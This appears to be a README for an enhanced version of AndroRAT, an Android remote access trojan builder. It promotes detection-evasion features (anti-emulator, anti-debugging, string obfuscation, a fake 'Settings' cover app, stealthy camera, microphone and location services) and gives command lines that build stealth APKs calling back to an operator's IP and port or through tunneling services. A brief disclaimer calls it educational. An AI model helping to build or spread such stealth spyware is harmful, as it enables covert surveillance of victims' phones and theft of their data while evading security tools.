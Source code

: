 # AndroRAT Enhanced - Detection Evasion & Android 14+ Compatibility

This enhanced version of AndroRAT includes advanced detection evasion techniques and full compatibility with the latest Android versions.

## 🚀 New Features

### Android 14+ Compatibility
- **Updated SDK**: Now targeting Android 14 (API 34) with backward compatibility to Android 6 (API 23)
- **Modern Permissions**: Full support for Android 14+ permission model including scoped storage and media permissions
- **Enhanced Foreground Services**: Proper service types and notification handling for Android 12+
- **Runtime Permissions**: Automatic permission request handling for modern Android versions

### 🛡️ Detection Evasion Techniques

#### Anti-Analysis Features
- **Anti-Emulator Detection**: Automatically detects and handles emulator environments
- **Behavioral Analysis Evasion**: Includes timing attacks and pattern disruption
- **Anti-Debugging**: Basic debugger detection and countermeasures
- **String Obfuscation**: Automatic obfuscation of suspicious strings in compiled APK

#### Stealth Features
- **Legitimate Cover Activity**: Includes a realistic "Settings" app interface
- **Random Delays**: Jitter and delays to avoid behavioral fingerprinting
- **Network Security Config**: Enhanced SSL/TLS handling for better stealth
- **File Timestamp Randomization**: Avoid signature-based detection

## 📱 Usage

### Basic APK Generation
```bash
# Standard APK build
python3 androRAT.py --build -i 192.168.1.100 -p 8080 -o my_app.apk

# With tunneling
python3 androRAT.py --build --tunnel -p 8080 -o tunnel_app.apk
```

### Enhanced Stealth Mode
```bash
# Maximum stealth with all evasion techniques
python3 androRAT.py --build --stealth -i 127.0.0.1 -p 8080 -o stealth_app.apk

# With random package name
python3 androRAT.py --build --stealth --random-package -i 127.0.0.1 -p 8080 -o secure_app.apk
```

### New CLI Options
- `--stealth`: Enable maximum stealth mode with all detection evasion techniques
- `--random-package`: Use randomly generated package names for better evasion
- `--tunnel-service`: Choose specific tunneling service (cloudflared, serveo, localtunnel, ngrok, auto)

## 🔧 Technical Improvements

### Android Manifest Enhancements
- Android 14+ media permissions (`READ_MEDIA_VISUAL_USER_SELECTED`)
- Enhanced foreground service types (`dataSync`, `camera`, `microphone`, `location`)
- Proper component export declarations
- Network security configuration for cleartext traffic

### Java Code Improvements
- **MainActivity**: Enhanced with runtime permission handling and anti-analysis
- **mainService**: Improved stealth with legitimate-looking foreground notifications
- **SettingsActivity**: New cover activity that appears as a legitimate settings app

### Build Process Enhancements
- String obfuscation in smali files
- Random timestamp application
- Enhanced error handling
- Improved stealth messaging

## 📊 Compatibility Matrix

| Android Version | API Level | Support Status |
|----------------|-----------|----------------|
| Android 6.0+   | 23+       | ✅ Full Support |
| Android 12+    | 31+       | ✅ Enhanced Features |
| Android 13+    | 33+       | ✅ Modern Permissions |
| Android 14+    | 34+       | ✅ Latest Features |

## 🧪 Testing

Run the comprehensive test suite:
```bash
# Basic tests
python3 test_androrat.py

# Comprehensive tests
python3 comprehensive_test.py
```

Test APK building with stealth:
```bash
python3 androRAT.py --build --stealth -i 127.0.0.1 -p 8080 -o test.apk
```

## ⚠️ Important Notes

### Legal Disclaimer
This tool is for educational and authorized security testing purposes only. Users are responsible for compliance with all applicable laws and regulations.

### Detection Evasion Effectiveness
- Detection evasion techniques are designed to avoid basic automated analysis
- Effectiveness may vary depending on specific security solutions
- Regular updates may be needed to maintain evasion capabilities
- No evasion technique is 100% guaranteed

### Best Practices
1. Always test APKs in isolated environments first
2. Use tunneling services for remote connections
3. Keep the tool updated for latest Android compatibility
4. Use stealth mode for maximum evasion effectiveness

## 🔄 Changelog

### v2.0 - Enhanced Detection Evasion
- Added Android 14+ compatibility
- Implemented comprehensive detection evasion techniques
- Enhanced stealth APK building process
- Added anti-analysis and anti-emulator features
- Improved permission handling for modern Android

### Previous Versions
- Fixed ngrok credit card requirement with alternative tunneling
- Resolved SSL certificate verification issues
- Fixed Python version compatibility
- Enhanced Unicode/ASCII encoding support